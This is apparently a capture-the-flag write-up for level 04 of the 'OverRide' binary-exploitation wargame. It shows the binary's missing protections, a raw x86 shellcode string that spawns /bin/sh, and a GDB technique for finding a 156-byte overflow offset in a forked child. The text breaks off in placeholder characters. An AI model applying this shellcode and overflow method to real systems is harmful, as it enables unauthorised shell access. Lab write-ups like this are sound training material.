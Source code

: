 # Level 04

Once logged in, you will see a binary.

```
$ ssh localhost -p 4242 -l level04
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level04@localhost's password:
Permission denied, please try again.
level04@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
level04@OverRide:~$ ls
level04
level04@OverRide:~$
```

Once the program executes, it suddenly asks for the [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php), so let's just provide them.

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
level04@OverRide:~$
```

Okay, seems like this didn't do anything. But, there is a hint given `child is exiting...`. With the decompiled source, the program actually `forks`, and the process are run on the child process. And, ............

The program calls fork to create a new process, then its child process (pid == 0) calls gets to read stdin. We used set `follow-fork-mode child` to let GDB follow the child process and got offset 156 by calculating eip - eax. XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
